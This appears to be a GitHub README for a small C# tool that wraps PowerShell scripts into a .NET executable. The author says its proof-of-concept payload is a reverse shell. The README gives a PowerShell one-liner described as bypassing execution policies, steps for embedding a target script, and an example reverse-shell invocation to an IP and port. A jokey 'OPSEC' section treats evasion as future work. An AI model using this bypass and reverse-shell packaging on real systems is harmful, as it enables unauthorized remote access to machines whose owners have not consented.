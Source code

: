 # PowerShellWrapperNET

Really dumb simple WIP C# wrapper for PowerShell tooling. Improvments and revisions will come to make it not suck.

_(Note: current PoC PowerShell script is a simple reverse shell.)_

## Usage

**1. Validate that your target script can be ran with the following PowerShell command:**
```powershell
Invoke-Expression ([string](Get-Content '<temp_script_path>' | % { Write-Output "$_`n" }))
```
_(Note: above command bypasses execution policies and file extensions.)_

**2. If the above command is successful:**
- Add the contents of the target script into the `psScript` variable within `Main()` _(Note: will likely need to adjust quotations and brackets)._
- Add the command needed to execute target script into the `MainFunctoinName` variable within `Main()` _(e.g., `Example-RevShell -IpAddress 127.0.0.1 -Port 443`)._
- Compile source code (current build uses .NET Framework 3.5).

**3. Use a goofy ahhhh WIP tool.**

## OPSEC

Zilcho. None. For now. We'll see. Maybe. Maybe not.
